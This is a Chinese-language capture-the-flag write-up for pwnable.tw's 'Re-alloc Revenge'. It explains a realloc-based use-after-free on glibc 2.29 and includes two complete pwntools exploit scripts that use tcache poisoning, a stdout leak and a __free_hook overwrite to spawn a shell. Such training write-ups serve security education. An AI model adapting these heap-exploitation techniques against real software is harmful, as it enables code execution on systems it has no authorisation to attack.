 ```yaml
---
title: Re-alloc-Revenge
date: 2021-05-30 23:49:43
tags:
layout: default
---
```

Re-alloc Revenge in pwnable.tw
<!--more-->
# Prologue

realloc-revenge是realloc那题的一个加强版，主要逻辑不变，在allocate里面的realloc变成了malloc，保护全开，依然是2.29的libc。最佳我做到的应该是1/16，只需要猜stdout的半个字节。

# Tricks

漏洞点是realloc在设定size为0时执行free但是指针不清空所有有UAF有几个组合技巧。

本文的伪代码第一个参数为指针的idx，第二个参数为size，第三个参数是写入内容。

## Modify Arbitrary Address

一共就两个可用指针，malloc最大0x78，想要控制任意地址就需要利用realloc的切割。

```python
malloc(0,0x78)
realloc(0,0)
realloc(0,0x78,p64(Arbitrary Address))
malloc(1,0x78)
realloc(1,0x28)
free(1)
malloc(1,0x78,Paylaod)
```

## Fill  tcache

填满tcache需要6个chunk，要求是尽可能只用掉一个size的list，因为如果用切割那么会填满2个而我们后面还有为了清空指针切割两次的操作会用到 `0x80→0x40*2→0x20*2`。可以使用 `realloc-expand`来搞定。

```python
for x in range(7):
    add(0,0x28)
    realloc(0,0x68)
    free(0)
add(0,0x28)
realloc(0,0x68)
add(1,0x18)
free(0)
```

## Edit

这个也不算什么组合。。就是正常的realloc为0之后realloc原来的大小就可以看成是edit了。

# Solution

因为这题我走了些弯路所以有比较直接的1/256的做法和比较绕圈圈的1/16做法。先讲1/16的做法。

## 1/16

要想1/16所堆绝对不能猜，也就是不能用管理tcache的结构体。只能靠填满tcache然后用consolidate来获得一个smallbin。前文的Tricks中已经讲了如何填满tcache所以后面要做的是在menu等待输入的时候输入 `'1'*0x400` 就可以触发。之后比烦需要改两次，一次是把tcache劫持指向获得的smallbin，第二次是把smallbin用前面说到的 `Modify Arbitrary Address` 来partial write smallbin的fd(此处猜1/16)。接着IO_LEAK，之后控制free_hook+get shell，写了70多行。

```python
from pwn import *
context.arch='amd64'
context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",c)
def realloc(idx,size,c="A"):
    cmd(2)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    if(size>0):
        p.sendafter(":",c)
def free(idx):
    cmd(3)
    p.sendlineafter(":",str(idx))
p=remote("chall.pwnable.tw",10310)
#p=process('./pwn')
try:
    add(0,0x28)
    free(0)
    for x in range(6):
        add(0,0x18)
        realloc(0,0x78)
        free(0)
    add(0,0x18)
    realloc(0,0x78)
    add(1,0x18)
    realloc(1,0x78)
    free(1)
    free(0)
    cmd("1"*0x400)
    add(0,0x78)
    realloc(0,0)
    realloc(0,0x28,b'\x90')
    add(1,0x78)
    realloc(1,0x28)
    free(1)
    add(1,0x58)
    realloc(1,0x58,b'\x60\x37')
    realloc(0,0x28,b'\0'*0x10)
    free(0)
    add(0,0x78)
    realloc(0,0x28)
    free(0)
    add(0,0x78,p64(0xfbad1800)+b'\0'*0x18)
    p.read(0x58)
    base=u64(p.read(8))-(0x7ffff7fc1560-0x7ffff7ddb000)
    log.warning(hex(base))
    context.log_level='debug'
    realloc(1,0x28,b'\0'*0x28)
    free(1)
    add(1,0x68)
    realloc(1,0)
    realloc(1,0x18)
    free(1)
    add(1,0x68,b'\0'*0x18+p64(0x71)+p64(0x1e75a8-8+base))
    free(1)
    add(1,0x48)
    free(1)
    add(1,0x48,b'/bin/sh\0'+p64(0x52fd0+base))
    free(1)
    p.interactive()
except Exception:
    p.close()
```

## 1/256

这个方法比较容易想到，就是先猜1/16控制tcache的结构体，之后因为可以随意edit所以就可以随意把chunk放进unsortedbin之类的地方。之后再edit一次把目标获得+partial write，之后就可以IO_LEAK了，后面没什么区别思路也比较直接，不过需要1/256。

```python
from pwn import *
context.arch='amd64'
context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("ice: ",str(c))
def add(idx,size,c="A"):
    cmd(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",c)
def realloc(idx,size,c="A"):
    cmd(2)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    if(size>0):
        p.sendafter(":",c)
def free(idx):
    cmd(3)
    p.sendlineafter(":",str(idx))
#p=remote("chall.pwnable.tw",10310)
p=process('./pwn')
try:
    add(0,0x38)
    add(1,0x38)
    free(1)
    realloc(0,0)
    realloc(0,0x38,'\x10\x90')
    add(1,0x38)
    realloc(1,0x18)
    free(1)
    add(1,0x38,'\0'*0x1d+'\xff'*0x1)
    realloc(1,0x58,'\0')
    realloc(0,0x18,'\0'*0x18)
    free(0)
    realloc(1,0x78,'\0'*0x60+'\x60\x37')
    #gdb.attach(p)
    add(0,0x58,p64(0x1800)+b'\0'*0x18)
    context.log_level='debug'
    p.read(0x58)
    base=u64(p.read(8))-(0x7ffff7fc1560-0x7ffff7ddb000)
    log.warning(hex(base))
    realloc(1,0x78,b'\0'*0x60+p64(base+0x1e75a8-8))
    free(1)
    add(1,0x58,b'/bin/sh\0'+p64(0x52fd0+base))
    free(1)
    p.interactive()
except Exception:
    p.close
```

# Epilogue

这题过程中我发现了我之前一直认识错误的东西，我以为IO LEAK需要1/4096的概率（因为我3年前第一次做的时候关了aslr导致以为要写一个字节，后面就定式思维了），其实main_arena后面不远处就是stdout，所以有些情况下不需要多写那个字节，前面说的1/16还有1/256也不是严格的，因为load的地址随机化也有影响：具体是需要乘上系数 `7/16`，因为 unsorted pointer 的offset是0x1e4ca0 而stdout的offset是0x1e5760。

发现自己傻逼了3年。